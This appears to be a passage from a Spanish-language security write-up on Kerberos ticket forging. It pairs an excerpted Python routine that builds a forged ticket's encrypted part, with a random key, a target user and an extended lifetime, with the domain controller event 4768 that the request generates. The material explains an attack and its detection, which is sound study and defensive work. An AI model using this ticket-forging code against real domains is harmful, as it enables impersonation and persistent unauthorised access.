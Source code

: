 ```python
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(16)])
            elif encTicketPart['key']['keytype'] == EncryptionTypes.aes256_cts_hmac_sha1_96.value:
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(32)])
            else:
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(16)])

            encTicketPart['crealm'] = self.__domain.upper()
            encTicketPart['cname'] = noValue
            encTicketPart['cname']['name-type'] = PrincipalNameType.NT_PRINCIPAL.value
            encTicketPart['cname']['name-string'] = noValue
            encTicketPart['cname']['name-string'][0] = self.__target

            encTicketPart['transited'] = noValue
            encTicketPart['transited']['tr-type'] = 0
            encTicketPart['transited']['contents'] = ''
            encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
            encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
            # Let's extend the ticket's validity a lil bit
            encTicketPart['endtime'] = KerberosTime.to_asn1(ticketDuration)
            encTicketPart['renew-till'] = KerberosTime.to_asn1(ticketDuration)
            encTicketPart['authorization-data'] = noValue
            encTicketPart['authorization-data'][0] = noValue
            encTicketPart['authorization-data'][0]['ad-type'] = AuthorizationDataType.AD_IF_RELEVANT.value
            encTicketPart['authorization-data'][0]['ad-data'] = noValue
[...]
```

# Eventos

El DC genera los siguientes eventos.

Primero el de autenticación debido a AS_REQ, ID de evento **4768**.

```
A Kerberos authentication ticket (TGT) was requested.

Account Information:
	Account Name:		Administrator
	Supplied Realm Name:	CONTOSO
	User ID:			CONTOSO\Administrator

Service Information:
	Service Name:		krbtgt
	Service ID:		CONTOSO\krbtgt

Network Information:
	Client Address:		::1
	Client Port:		0

Additional Information:
	Ticket Options:		0x40810010
	Result Code:		0x0
	Ticket Encryption Type:	0x12
	Pre-Authentication Type:	2

Certificate Information:
	Certificate Issuer Name:		
	Certificate Serial Number:	
	Certificate Thumbprint:		
```